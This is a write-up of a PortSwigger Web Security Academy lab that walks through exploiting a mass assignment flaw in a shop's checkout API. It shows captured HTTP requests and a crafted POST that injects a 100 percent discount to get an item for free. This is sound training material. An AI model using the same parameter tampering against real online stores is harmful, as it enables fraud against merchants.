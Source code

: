 ## [Lab-02: Exploiting a mass assignment vulnerability](https://portswigger.net/web-security/api-testing/lab-exploiting-mass-assignment-vulnerability)
**Mass Assignment vulnerabilities are present when an attacker is able to overwrite object properties that they should not be able to.**
To solve the lab, find and exploit a mass assignment vulnerability to buy a **Lightweight l33t Leather Jacket**. You can log in to your own account using the following credentials: `wiener:peter`.
almost identical to 1

```
Required knowledge

To solve this lab, you'll need to know:

- What mass assignment is.
- Why mass assignment may result in hidden parameters.
- How to identify hidden parameters.
- How to exploit mass assignment vulnerabilities.
```


### Sign into the app, and run the Content Discovery tool
this will reveal some of the API routes and give you an idea of how it works, and a clue as to what you need to change
try and purchase the jacket and accumulate the following Get request in your history

</br>

- In **Proxy > HTTP history**, notice both the `GET` and `POST` API requests for `/api/checkout`.

```http
GET /api/checkout HTTP/2
Host: 0afa00be0361459380926d9b009b0096.web-security-academy.net
Cookie: session=EWhGuZzEo1xsMTNf4z8SpLQFV9JtnMKw

```

Response
```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 153

{
  "chosen_discount": {
    "percentage": 0
  },
  "chosen_products": [
    {
      "product_id": "1",
      "name": "Lightweight \"l33t\" Leather Jacket",
      "quantity": 1,
      "item_price": 133700
    }
  ]
}
```
</br>

- the response to the `GET` request contains the same JSON structure as the `POST` request. Observe that the JSON structure in the `GET` response includes a `chosen_discount` parameter, which is not present in the `POST` request.

- Send `POST /api/checkout` request to Repeater, and add the `chosen_discount` parameter to the request. The goal is to get the jacket for free, so edit the json values accordingly

Here is the custom `POST /api/checkout` request
```http
POST /api/checkout HTTP/2
Host: 0a3b0082035c62d780a7c1a100420056.web-security-academy.net
Cookie: session=io2WJLKK9Rva0E8TtRHtWk7y0FpYzSnb
Referer: https://0a3b0082035c62d780a7c1a100420056.web-security-academy.net/cart
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Content-Type: application/x-www-form-urlencoded
Content-Length: 155

{"chosen_discount":{"percentage":100},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":133700}]}
```

After sending this through, the price should now be successfully updated, and the lab solved
